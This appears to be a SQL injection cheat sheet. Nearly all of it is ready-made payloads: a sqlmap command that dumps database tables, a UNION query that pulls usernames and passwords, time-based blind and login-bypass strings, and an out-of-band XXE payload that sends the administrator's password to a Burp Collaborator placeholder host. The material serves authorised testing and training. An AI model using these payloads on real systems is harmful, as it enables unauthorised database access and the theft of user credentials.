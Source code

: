 # SQL Injection

-- o #

## Reflected SQL Injection:</h2>
```bash
sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns
Results:
Database: public
Table: users
[POC]:
https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--

# Version
## First detect numbers of columns
```html
' UNION SELECT NULL,@@version--
' UNION SELECT NULL,NULL,* FROM v$version--
' UNION SELECT banner FROM v$version--
' UNION SELECT version FROM v$instance--
' UNION SELECT version()--
```

## Blind SQL Injection:
```html
';SELECT PG_SLEEP(5)--
'||pg_sleep(10)--
'SLEEP(2);--
```
## SQL Login
In nickname, email and password test for
```html
name'--
pass'--
'+OR+1=1--
'+OR+2=2--
'+OR+5=5--
'+OR+'E'='E'--
```


## Test cookies for https request - Blind:
```html
  TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### Then for credentials.
```html
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.
  ```
